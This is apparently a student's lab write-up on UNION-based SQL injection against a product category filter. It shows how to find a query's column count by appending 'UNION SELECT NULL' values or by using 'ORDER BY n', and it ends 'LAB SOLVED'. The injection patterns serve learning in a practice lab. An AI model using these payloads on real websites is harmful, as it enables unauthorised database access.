

**SQL Injection: Product category filter**
*-Goal: determine the number of columns returned by the query*

*- Review and rule:*
> 1. The number and the order of the columns must be the same in all queries

> 2. The data types must be compatible

*- SQLi attack (way#1):*
`select ? from table 1 UNION select NULL`
 
> return error: incorrect number of columns

`select ? from table1 UNION select NULL,NULL,...`

> return 200 response code 
-> coreect number of columns

*-SQLi attack (way#2):*
`select a,b from talbe1 order by 3`

*`LAB SOLVED`*
